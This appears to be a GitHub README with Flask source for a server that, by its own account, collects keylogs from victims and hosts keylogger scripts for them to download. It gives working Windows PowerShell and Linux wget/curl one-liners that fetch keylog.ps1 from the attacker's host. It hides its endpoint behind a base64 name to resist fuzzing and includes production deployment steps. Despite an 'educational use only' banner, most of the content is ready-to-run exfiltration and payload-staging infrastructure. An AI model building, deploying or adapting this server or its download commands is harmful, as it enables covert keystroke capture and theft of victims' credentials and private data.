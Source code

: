 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Web server with Flask
Simple python script, to launch a web server which takes POST and GET requests.

## How to use:

- Download the file `webhook`
- Edit `app.run(host='IP_YOU_WANT_TO_LISTEN', port=PORT_NUMBER)` , to the IP and Port, you want to listen the incoming traffic.
- Give permission `chmod 700 webhook`
- Create subfolder `data` in the same location where `webhook` will be ran.
	- Inside `data` you can put all the, for example files, you want to serve.
- Run `./webhook`
  
**Profit!**   
Webhook is now running:
- `/c2VydmVy` end point, for example `http://IP_YOU_WANT_TO_LISTEN/c2VydmVy`, accepts POST requests, in our project, designed for receiving the keylogs from victim.
- `/c2VydmVy/filename` endpoint takes GET requests, for example if you have `keylog.ps1` script in previously created `data` subfolder, same location where the webhook is executed, you can fetch the script to victim:
	- Windows (2 examples): 
		- `Invoke-WebRequest -Uri http://IP_YOU_WANT_TO_LISTEN/c2VydmVy/keylog.ps1 -OutFile "test.ps1"`
		- `(New-Object System.Net.WebClient).DownloadFile("IP_YOU_WANT_TO_LISTEN/c2VydmVy/logger.ps1", "test.ps1")`
	- Linux (2 examples): 
		- `wget http://IP_YOU_WANT_TO_LISTEN/c2VydmVy/keylog.ps1`
		- `curl http://IP_YOU_WANT_TO_LISTEN/c2VydmVy/logger.ps1 -o test.ps1`
---

### Commented code:

```python
#!/bin/python3
from flask import Flask, request, send_from_directory
import os

app = Flask(__name__)

# Define the working dir to a variable
WORKING_DIR = "data"

# Function to get the next available log number
def get_next_log_number():
    log_number = 1
    while os.path.exists(os.path.join(WORKING_DIR, f'log-{log_number}.txt')):
        log_number += 1
    return log_number

# @app.route('/')
# def handle_root():
#    return "KUCKUU!"

# Handling POST requests to the specific endpoint
# Scrambled to make FUZZing harder
@app.route('/c2VydmVy', methods=['POST'])
def handle_webhook_post():
    # Checking if the request method is POST
    if request.method == 'POST':
        # Getting the data from the request
        data = request.data

        # Check if the data contains Mac-style line endings
        if b'\r' in data:
            # Replace Mac-style line endings with Unix-style line endings
            data = data.replace(b'\r', b'\n')

        # Getting the next available log number
        log_number = get_next_log_number()
        # Generating the log filename based on the log number
        log_filename = f'log-{log_number}.txt'

        # Writing the received data to the log file in the script's directory
        log_filepath = os.path.join(WORKING_DIR, log_filename)
        with open(log_filepath, 'wb') as file:
            file.write(data)

        # Returning a response indicating successful receipt and logging of data
        return f"Webhook data received and logged as {log_filename}", 200
    else:
        # Returning a 501 status code for unsupported methods
        return "Unsupported method", 501

# Handling GET requests to the specific endpoint
# Scrambled to make FUZZing harder
@app.route('/c2VydmVy/<filename>', methods=['GET'])
def download_file(filename):
    try:
        # Using send_from_directory to serve the file from the script's directory
        return send_from_directory(WORKING_DIR, filename, as_attachment=True)
    except FileNotFoundError:
        # Returning a 404 status code if the file is not found
        return "File not found", 404

# Running the Flask app if this script is executed directly
if __name__ == '__main__':
    # Configuring the Flask app to run on a specific host and port
    app.run(host='IP_YOU_WANT_TO_LISTEN', port=PORT_NUMBER)
```


### Deployment to production

Deployment to production have been tested with:   
**Debian 12 - 1 Core - 256mb RAM**

Using the guides below:  

With Nginx and Gunicorn:   
[DigitalOcean - How to serve Flask application with Gunicorn and Nginx](https://www.digitalocean.com/community/tutorials/how-to-serve-flask-applications-with-gunicorn-and-nginx-on-ubuntu-22-04)

With Apache:   
[Tero Karvinen - Deploy Python Flask to Production](https://terokarvinen.com/2020/deploy-python-flask-to-production/)


